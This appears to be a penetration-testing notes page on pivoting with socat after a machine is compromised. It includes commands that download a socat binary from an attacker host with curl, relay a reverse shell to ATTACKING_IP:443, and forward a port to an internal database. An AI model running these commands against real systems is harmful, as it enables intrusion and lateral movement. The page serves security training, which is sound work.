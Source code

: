 if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`

Then, on the target:\
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`

***

after setting up a listener on your local machine, on the compromised server, use the following command to start the relay:\
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:\
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

So, this command sets up a TCP port forwarding from the local port 33060 to the remote address 172.16.0.10 on port 3306.

./socat`: Executes the` socat`command.`&#x20;
